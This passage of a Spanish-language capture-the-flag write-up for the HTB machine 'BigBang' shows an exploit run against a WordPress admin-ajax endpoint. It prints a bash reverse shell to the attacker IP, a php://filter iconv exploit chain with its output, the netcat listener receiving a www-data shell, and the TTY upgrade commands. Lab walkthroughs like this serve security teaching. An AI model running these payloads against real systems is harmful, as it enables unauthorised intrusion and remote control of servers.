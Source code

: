 ~~~ bash
python3 exploit.py "http://blog.bigbang.htb/wp-admin/admin-ajax.php" "bash -c 'bash -i >& /dev/tcp/10.10.15.9/443 0>&1'"
[*] Potential heaps: 0x7faf96400040, 0x7faf96200040, 0x7faf94c00040, 0x7faf92800040, 0x7faf92000040, 0x7faf91800040, 0x7faf90600040 (using last one)
HEAP address: 0x7faf96400040
LIBC address: 0x7faf991bf000
Sending exploit...
PATH: 
php://filter/read=zlib.inflate|zlib.inflate|dechunk|convert.iconv.L1.L1|dechunk|convert.iconv.L1.L1|dechunk|convert.iconv.L1.L1|dechunk|convert.iconv.UTF-8.ISO-2022-CN-EXT|convert.quo
ted-printable-decode|convert.iconv.L1.L1/resource=data:text/plain;base64,e3vXf91rExH2hP7zWXPMtpvLujzay15+RkypYNvBFkHuBOk1XbUFMp/Z/sxUiFWR+2cXuT95e+asLxFzl4Ux4AfLNui4xzwtm2oV9lWsem1q3s
QcAfwaGjx1TguG74xd2he692hc9sxoFWkW/DoShE4XHQnNC1+ZHJq/8XrUM7GTbIz4rVh5Z7ruuqD1QcdXXfvH8sMu7+v3k7v7+W/HTa9d+/vzxvqK2/H3/63Vn5WyZv7l9z/llCftZyfgy3+v5UyrKm+6Sa4u7f4b+P167v69b84///cwt772d
vbbx5Hf+1/Xra6vs+2//yq+v/9JOBt+99U/+ff3K8On39+vM594f7/3arnpt+u///3YYh/3q2Lt34OPv6fur38z+fjxvx/33Pt7Zfr29d9/f5615rf32+Tad69//Xxw+1/Eus25++X/7IiffH1/9Wur839n//22I67ytvzrUsZ+u/rY3+nx66//
PvrkyWx7v7h1Jz9bJew99jX2+/nnZ5I/VR9vvsz7+L+10s9qZvzennFsU07h1Cpg5G51m3lzvf1fiZPfCIRUgkX/iQjjqNcbXWe6qPxlH1U8qnhUMZ0Vz7gXlH2mZPfpHbefa3hP8diGv7RkOPBlWlTystuxx+7auUcuctnES6jI335FyvjuO6N
33yxPCalOyiWg3GDt0rzCqVLxl1L3P3nqVil+f9r6un9P24OUDpUR0DnjWtD2HV69+i83xWdNKRcT3EaguDqwZdquo6FZNZ7T/wYt3rO54wcvAA==

     EXPLOIT  SUCCESS 
~~~

Deberíamos recibir la conexión, inmediatamente haremos el tratamiento de la TTY para poder operar de forma más cómoda

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.15.9] from (UNKNOWN) [10.10.11.52] 54480
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash
<w/html/wordpress/wp-admin$ script /dev/null -c bash    
Script started, output log file is '/dev/null'.
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ ^Z
[1]  + 60289 suspended  nc -lvnp 443
root@parrot exploits # stty raw -echo; fg
[1]  + 60289 continued  nc -lvnp 443
                                    reset xterm
~~~

Para hacer `Ctrl + L`, asignaremos un valor a la variable de entorno `TERM`, además de ajustar las proporciones de la terminal, en mi caso, son las siguientes

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ export TERM=xterm
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ stty rows 44 columns 184
~~~


## System Enumeration - Container
